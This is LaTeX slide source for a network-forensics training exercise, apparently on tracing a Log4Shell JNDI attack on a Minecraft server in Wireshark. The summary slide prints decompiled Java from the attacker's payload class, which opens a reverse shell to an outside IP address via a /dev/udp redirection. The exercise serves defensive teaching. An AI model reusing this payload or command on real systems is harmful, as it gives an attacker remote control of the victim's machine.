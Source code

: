 \begin{frame}[fragile]
    \frametitle{Exercise 3: Payload delivery and RCE}
	{Identify the TCP stream where the {\color{red}{\bf Attacker}} delivered the RCE payload to the {\color{blue}{\bf Minecraft Server}}}
	\linebreak
    \begin{itemize}
    	\item Search for LDAP traffic after the last JNDI payload
    	\item Payload delivery is over HTTP
    	\item HTTP objects can be exported easily in Wireshark
	\begin{lstlisting}
File -> Export Objects -> HTTP...
	\end{lstlisting}
    	\item What does the payload do?
    	\item Identify which commands the {\color{red}{\bf Attacker}} run abusing the RCE

    \end{itemize}
    \begin{center}Exercise duration: 15 minutes\end{center}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 3: Payload delivery and RCE summary}
	\begin{lstlisting}[basicstyle=\tiny\color{black},language=Java]
// ExecTemplateJDK8.class
package defpackage;

/* renamed from: ExecTemplateJDK8  reason: default package */
public class ExecTemplateJDK8 {
    static {
        try {
            Runtime.getRuntime()
                    .exec(System.getProperty("os.name").toLowerCase().contains("win")
                            ? new String[] {
                                    "cmd.exe", "/C",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            }
                            : new String[] {
                                    "/bin/bash", "-c",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            });
        } catch (Exception e) {
            e.printStackTrace();
        }
        System.out.println();
    }
}
	\end{lstlisting}
\end{frame}

